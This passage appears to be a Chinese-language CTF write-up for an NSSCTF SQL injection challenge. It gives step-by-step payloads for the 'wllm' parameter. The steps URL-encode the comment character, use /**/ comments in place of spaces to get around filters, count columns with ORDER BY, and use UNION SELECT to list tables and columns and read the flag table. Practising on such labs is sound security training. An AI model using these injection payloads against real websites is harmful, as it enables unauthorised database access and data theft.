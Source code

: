 测试#没起作用，用url编码`%23`

```
wllm=1'/**/order/**/by/**/3%23
wllm=1'/**/order/**/by/**/4%23
```

**发现字段数为3**

```
-1'union/**/select/**/1,group_concat(table_name),3/**/from/**/information_schema.tables/**/where/**/table_schema/**/like(database())%23
```

![image-20250804164947990](./NSSCTF-3.assets/image-20250804164947990.png)

```
-1%27union/**/select/**/1,group_concat(column_name),3/**/from/**/information_schema.columns/**/where/**/table_name/**/like(%22LTLT_flag%22)%23
```

![image-20250804165016482](./NSSCTF-3.assets/image-20250804165016482.png)

```
-1'union/**/select/**/1,group_concat(id,flag),3/**/from/**/LTLT_flag%23
```
